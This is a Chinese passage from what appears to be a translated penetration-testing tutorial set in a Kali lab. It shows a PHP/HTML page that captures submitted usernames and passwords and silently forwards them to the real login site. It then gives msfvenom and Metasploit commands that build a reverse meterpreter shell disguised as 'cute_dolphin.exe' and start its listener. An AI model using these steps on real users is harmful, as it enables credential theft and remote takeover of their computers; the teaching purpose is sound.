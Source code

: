 之后我们将每个参数储存到变量中：

```
$username=$_POST["username"];  
$password=$_POST["password"];  
$submit="Login";
```

因为我们的登录不打算依赖于用户发送的正确值，我们设置`$submit="Login"`。下面，我们创建了 HTML 主题，它包含一个表单，在页面加载完毕后会自动发送`username`，`password`和`submit`值到原始站点。

```
<body onload="frm1.submit.click()"> 
<form name="frm1" id="frm1" method="POST" 
action="http://192.168.56.102/bodgeit/login.jsp"> 
<input type="hidden" value="<?php echo $username;?>" name ="username"> 
<input type="hidden" value="<?php echo $password;?>" name ="password"> 
<input type="submit" value="<?php echo $submit;?>" name ="submit"> 
</form> 
</body>
```

要注意，`body`中的`onload`事件并不调用`frm1.submit()`而是`frm1.submit. click()`。这是因为当我们使用`submit`作为表单元素的名称时，表单中的`submit()`函数会被这个元素覆盖掉（这里是提交按钮）。我们并不打算修改按钮名称，因为它是原始站点需要的名称。所以我们使`submit`变成一个按钮，而不是隐藏字段，并使用它的`click`函数将值提交到原始站点。我们同时将表单中的字段值设置为我们之前用于储存用户数据的变量值。

## 9.3 使用 Metasploit 创建反向 shell 并捕获连接

当我们执行客户端攻击的时候，我们能够欺骗用户来执行程序，并使这些程序连接回控制端。

这个秘籍中，我们会了解如何使用 Metasploit 的 msfvenom 来创建可执行程序（反向 meterpreter shell），它会在执行时连接我们的 Kali 主机，并向我们提供用户计算机的控制。

### 操作步骤

1.  首先，我们要创建我们的 shell。在 Kali 中打开终端并执行下列命令：

    ```
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4443 -f exe > cute_dolphin.exe
    ```

    这会创建名为`cute_dolphin.exe`的文件，这是反向 meterpreter shell，反向意味着它会连接回我们，而不是监听我们的连接。

2.  下面，我们需要为我们“可爱的海豚”将要创建的连接建立监听器。在 MSFconsole 的终端中：

    ```
    use exploit/multi/handler 
    set payload windows/meterpreter/reverse_tcp 
    set lhost 192.168.56.1 set lport 4443 
    set ExitOnSession false 
    set AutorunScript post/windows/manage/smart_migrate 
    exploit -j -z 
    ```

    就像你看到的那样，LHOST 和 RPORT 是我们用于创建`exe`文件的东西。这是程序将要连接的 IP 地址和 TCP 端口。所以我们需要在这个 Kali 的网络接口和端口上监听。

3.  我们的 Kali 已准备就绪，现在是准备攻击用户的时候了，我们以 root 启动 Apache 服务并运行下列代码：
